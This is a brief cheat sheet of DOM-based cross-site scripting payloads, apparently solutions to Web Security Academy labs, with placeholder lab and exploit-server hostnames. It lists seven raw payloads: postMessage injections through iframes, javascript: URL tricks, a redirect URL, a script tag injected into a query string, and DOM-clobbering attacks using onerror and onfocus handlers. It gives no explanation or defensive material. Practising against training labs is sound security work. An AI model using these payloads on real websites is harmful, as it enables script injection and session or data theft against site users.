# DOM-XSS

Payloads

1. <iframe src="url" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

2. <iframe src="url" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">

3.  <iframe src=url onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

4.  https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/

5.  <iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">

6. <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

7.  <form id=x tabindex=0 onfocus=print()><input id=attributes>      first in comments 
     <iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">

